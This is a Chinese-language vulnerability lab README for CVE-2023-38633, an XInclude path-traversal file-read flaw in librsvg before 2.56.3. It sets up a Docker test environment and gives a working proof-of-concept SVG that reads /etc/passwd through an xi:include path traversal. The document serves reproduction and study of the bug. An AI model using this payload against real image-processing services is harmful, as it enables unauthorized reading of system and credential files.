

# librsvg XInclude 文件包含漏洞（CVE-2023-38633）

librsvg 是一个用于处理 SVG 图片的开源依赖库。

librsvg 支持 XML 中的 XInclude 规范，可以用于加载外部内容。在 librsvg 2.56.3 版本以前，由于处理路径存在逻辑错误，导致攻击者可以传入一个恶意构造的 SVG 图片，进而读取到任意文件。

参考链接：

- <https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/>
- <https://gitlab.gnome.org/GNOME/librsvg/-/issues/996>

## 漏洞环境

执行如下命令启动一个 PHP 服务器，其中使用 librsvg 2.50.7 将用户上传的 SVG 图片转换成 PNG 图片并返回：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看到上传页面。

## 漏洞复现

将路径嵌入到 `<xi:include>` 标签中，如下 POC：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

上传这个 SVG 图片，即可查看到 `/etc/passwd` 已被成功读取并渲染进 PNG 图片中：


